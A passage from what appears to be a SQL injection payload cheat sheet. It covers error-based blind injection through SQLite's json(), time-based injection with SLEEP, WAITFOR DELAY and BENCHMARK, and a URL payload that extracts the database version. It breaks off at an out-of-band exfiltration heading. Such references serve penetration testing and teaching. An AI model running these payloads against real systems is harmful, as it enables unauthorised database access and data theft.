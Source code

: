 Attacks rely on sending an SQL query to the database, making the application return a different result depending on whether the query returned successfully or triggered an error. In this case, we only infer the success from the server's answer, but the data is not extracted from output of the error.

**Example**: Using `json()` function in SQLite to trigger an error as an oracle to know when the injection is true or false.

```sql
' AND CASE WHEN 1=1 THEN 1 ELSE json('') END AND 'A'='A -- OK
' AND CASE WHEN 1=2 THEN 1 ELSE json('') END AND 'A'='A -- malformed JSON
```

### Time Based Injection

Time-based SQL Injection is a type of blind SQL Injection attack that relies on database delays to infer whether certain queries return true or false. It is used when an application does not display any direct feedback from the database queries but allows execution of time-delayed SQL commands. The attacker can analyze the time it takes for the database to respond to indirectly gather information from the database.

* Default `SLEEP` function for the database

```sql
' AND SLEEP(5)/*
' AND '1'='1' AND SLEEP(5)
' ; WAITFOR DELAY '00:00:05' --
```

* Heavy queries that take a lot of time to complete, usually crypto functions.

```sql
BENCHMARK(2000000,MD5(NOW()))
```

Let's see a basic example to recover the version of the database using a time based sql injection.

```sql
http://example.com/item?id=1 AND IF(SUBSTRING(VERSION(), 1, 1) = '5', BENCHMARK(1000000, MD5(1)), 0) --
```

If the server's response is taking a few seconds before getting received, then the version is starting is by '5'.

### Out of Band (OAST)

Out-of-Band SQL Injection (OOB SQLi) occurs when an attacker uses alternative communication channels to exfiltrate data from a database. Unlike traditional SQL injection techniques that rely on immediate responses within the HTTP response, OOB SQL injection depends on the database server's ability to make network connections to an attacker-controlled server. This method is particularly useful when the injected SQL command's results cannot be seen directly or the server's responses are not stable or reliable.

Different databases offer various methods for creating out-of-band connections, the most common technique is the DNS exfiltration:

* MySQL
